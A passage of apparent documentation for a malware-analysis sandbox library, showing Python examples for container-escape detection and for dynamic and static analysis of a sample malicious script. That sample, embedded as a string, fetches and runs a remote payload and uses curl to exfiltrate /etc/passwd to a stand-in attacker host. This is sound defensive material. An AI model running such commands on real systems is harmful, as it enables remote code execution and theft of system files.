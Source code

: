 ```python
if escape_analysis.escape_detected:
    print("⚠️  Container escape attempt detected!")
    for technique in escape_analysis.techniques_used:
        print(f"  - {technique}")

# Analyze network communication
network_analysis = container_sandbox.analyze_network_traffic(runtime_results)
for connection in network_analysis.external_connections:
    print(f"External connection: {connection.destination}:{connection.port}")
```

## Script Analysis

### Python Script Security Analysis

```python
# Analyze potentially malicious Python script
python_script = """
import os
import subprocess
import urllib.request

# Download and execute payload
urllib.request.urlretrieve("http://malicious.com/payload.py", "/tmp/payload.py")
subprocess.run(["python", "/tmp/payload.py"])
os.system("curl http://attacker.com/exfiltrate?data=$(cat /etc/passwd)")
"""

script_result = sandbox.execute_script(
    script_content=python_script,
    language="python",
    monitor_network=True,
    block_network=True  # Prevent actual execution of malicious commands
)

# Analyze script behavior
behavioral_analysis = sandbox.analyze_script_behavior(script_result)
print("Script Analysis Results:")
print(f"Network requests attempted: {len(behavioral_analysis.network_attempts)}")
print(f"File operations: {len(behavioral_analysis.file_operations)}")
print(f"System commands: {len(behavioral_analysis.system_commands)}")

# Static analysis of script content
from ivexes.code_browser import CodeBrowser
code_browser = CodeBrowser()
static_analysis = code_browser.analyze_script(python_script, language="python")

dangerous_functions = static_analysis.find_dangerous_functions()
for func in dangerous_functions:
    print(f"Dangerous function used: {func.name} at line {func.line}")
```

